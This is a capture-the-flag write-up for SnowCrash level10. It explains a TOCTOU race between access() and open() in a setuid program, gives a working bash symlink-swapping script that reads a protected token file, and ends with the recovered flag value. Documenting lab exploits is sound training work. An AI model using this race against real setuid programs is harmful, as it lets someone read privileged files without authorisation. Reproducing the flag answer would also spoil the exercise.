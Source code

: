 
```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

Trying to execute level10 program

```bash
level10@SnowCrash:~$ ./level10 token
./level10 file host
	sends file to host if you have access to it
```

```bash
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```

Level10 tries to send the file specified as the first argument to a remote host. However, we don't have permission to read the contents of the token file.

```bash
level10@SnowCrash:~$ strings level10 | grep access
access
	sends file to host if you have access to it
You don't have access to %s
access@@GLIBC_2.0
level10@SnowCrash:~$ 
```

From man access

```bash
NOTES
       Warning: Using access() to check if a user is authorized to, for example, open a file before actually  doing  so  using  open(2)
       creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipu‐
       late it.  For this reason, the use of this system call should be avoided.  (In the example just described, a  safer  alternative
       would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)
```

We can take advantage of this well-known security vulnerability called a Time of Check to Time of Use (TOCTOU) race condition. This happens when a system checks for a condition (such as whether a user has permission to access a file) and then uses the result of that check to take an action (like opening the file), but between the check and the action, something changes (e.g., the file is modified or replaced).


`TOCTOU` race condition: The system checks if the user is authorized to do something (e.g., open a file) using a system call like access(2) or similar. However, between the time the system checks and the time it acts (e.g., opening the file with open(2)), there is a small window of opportunity for a malicious user to change the state of the system (for example, replacing the file with a different one or changing permissions).

`access()` uses the real user ID for permission checks (often used by programs that need to check if a real user has access).

`open()` uses the effective user ID (which might be different in setuid programs) and performs its own check.

We just need to bypass access, and `open` will use the effective user ID. Since our program has the SUID flag, we can read the contents of the token file.

## Exploitation


```bash
#!/bin/bash

touch /tmp/swap
for i in {1..5}; do
  ln -sf /tmp/swap /tmp/link;
  ln -sf ~/token /tmp/link;
done &
# for x in {1..5}; do
#   nc -l 6969;
# done &
for y in {1..5}; do
  ~/level10 /tmp/link 127.0.0.1;
done
```

woupa2yuojeeaaed06riuj63c
